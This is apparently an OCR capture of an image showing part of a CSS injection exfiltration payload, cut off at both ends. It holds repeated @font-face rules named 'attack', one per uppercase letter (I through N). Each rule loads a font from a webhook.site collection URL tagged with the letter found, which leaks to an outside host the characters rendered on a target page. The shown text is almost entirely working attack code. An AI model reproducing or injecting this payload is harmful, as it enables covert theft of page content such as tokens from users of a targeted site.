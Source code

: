            unicode-range:U+0048;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:I');

           unicode-range:U+0049;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:J');

           unicode-range:U+004A;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:K');

           unicode-range:U+004B;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:L');

           unicode-range:U+004C;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:M');

           unicode-range:U+004D;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:N');
